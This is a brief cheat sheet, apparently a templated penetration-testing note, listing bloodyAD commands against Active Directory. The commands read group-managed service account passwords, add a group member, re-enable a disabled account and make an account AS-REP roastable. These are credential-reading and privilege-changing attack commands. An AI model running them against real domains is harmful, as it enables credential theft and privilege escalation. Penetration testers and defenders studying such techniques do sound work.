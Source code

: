 # BloodyAD #

- Read gMSA (Group-Managed Service Account Passwords)
`bloodyAD -d {{ $DOMAIN }} --host {{ $DC_HOST_NAME }} --dc-ip {{ $DC_IP }} -k get object {{ $ACCOUNT }} --attr msDS-ManagedPassword`

- Add group member
`bloodyAD -d {{ $DOMAIN }} --host {{ $DC_HOST_NAME }} --dc-ip {{ $DC_IP }} -k add groupMember {{ $GROUP }} {{ $ACCOUNT }}`

- Enable a disabled account
`bloodyAD -d {{ $DOMAIN }} --host {{ $DC_HOST_NAME }} --dc-ip {{ $DC_IP }} -k remove uac {{ $ACCOUNT }} -f ACCOUNTDISABLE`

- Make account ASREProastable
`bloodyAD -d {{ $DOMAIN }} --host {{ $DC_HOST_NAME }} --dc-ip {{ $DC_IP }} -k add uac {{ $ACCOUNT }} -f DONT_REQ_PREAUTH`


